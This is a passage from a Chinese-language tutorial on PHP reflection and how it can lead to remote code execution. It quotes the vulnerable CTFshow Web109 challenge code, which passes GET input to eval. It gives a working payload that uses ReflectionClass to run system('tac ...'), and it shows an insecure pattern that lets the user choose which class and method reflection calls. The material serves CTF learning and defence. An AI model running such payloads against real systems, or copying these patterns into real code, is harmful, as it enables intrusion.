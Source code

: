 
**4.解析类注解**

结合文档注释，可以实现简单的注解功能：

    $docComment = $reflection->getDocComment();
    // 解析类似 @Entity(table="users") 的注解
    preg_match('/@Entity\(table="(.*?)"\)/', $docComment, $matches);
    $tableName = $matches[1] ?? 'default_table';
    

### 反射机制进一步的利用

如果被恶意利用，可能成为RCE的攻击向量。主要源于反射机制对类方法、属性的动态访问能力，尤其是能够控制反射操作的参数时。

导致RCE核心原理：

1.  **类名 / 方法名**：通过`ReflectionClass`动态指定类和方法，若类名 / 方法名可控，可能调用危险函数（如`exec`、`system`等）。
2.  **方法参数**：即使类和方法固定，若传入的参数可控，可能注入恶意指令（如命令注入）。
3.  **访问控制绕过**：反射的`setAccessible(true)`可突破私有方法限制，若被攻击利用，可能触发类内部的危险逻辑。

这里举一个CTFshowWeb109的例子

    <?php
    highlight_file(__FILE__);
    error_reporting(0);
    if(isset($_GET['v1']) && isset($_GET['v2'])){
        $v1 = $_GET['v1'];
        $v2 = $_GET['v2'];
    
        if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
                eval("echo new $v1($v2());");
        }
    }
    ?>
    

new $v1 创建了一个名为v1的实例，调用v2方法。echo 一个对象 触犯反序列化的\_\_toString()魔术方法，也就是本题的利用点

魔术方法 \_\_toString() 在对象被当作字符串处理时自动调用。很多 PHP 内置类（如 Exception、CachingIterator 和 ReflectionClass）都实现了这个方法。

    ?v1=ReflectionClass&v2=system('tac fl36dg.txt')
    //同时也可以用别的内置类
    

上面是直接利用的例子

接下来我们看一下特殊的攻击场景

**1.可控类名+方法名的反射调用**

若代码中通过反射动态调用类方法，且类名和方法名由用户输入控制，攻击者可构造恶意类名和方法名触发命令执行：

    $className = $_GET['class'];  // 攻击者可控
    $methodName = $_GET['method']; // 攻击者可控
    
    try {
        $reflection = new ReflectionClass($className);
        $method = $reflection->getMethod($methodName);
        $method->invoke(null); // 静态方法调用
    } catch (Exception $e) {
        // 异常处理
    }
    
